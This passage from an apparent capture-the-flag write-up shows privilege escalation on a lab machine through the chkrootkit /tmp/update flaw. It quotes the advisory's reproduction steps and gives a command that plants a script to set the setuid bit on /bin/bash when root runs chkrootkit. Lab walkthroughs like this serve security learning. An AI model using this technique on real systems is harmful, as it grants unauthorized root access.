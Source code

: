 ![](../assets/Pasted%20image%2020250612095534.png)

`chkrootkit` is being executed, so searching with `searchsploit`

![](../assets/Pasted%20image%2020250612100029.png)

```shell
Steps to reproduce:

- Put an executable file named 'update' with non-root owner in /tmp (not
mounted noexec, obviously)
- Run chkrootkit (as uid 0)

Result: The file /tmp/update will be executed as root, thus effectively
rooting your box, if malicious content is placed inside the file.
```

```shell
amrois@nineveh:/tmp$ echo 'chmod +s /bin/bash' > update && chmod +x update
```

![](../assets/Pasted%20image%2020250612100235.png)
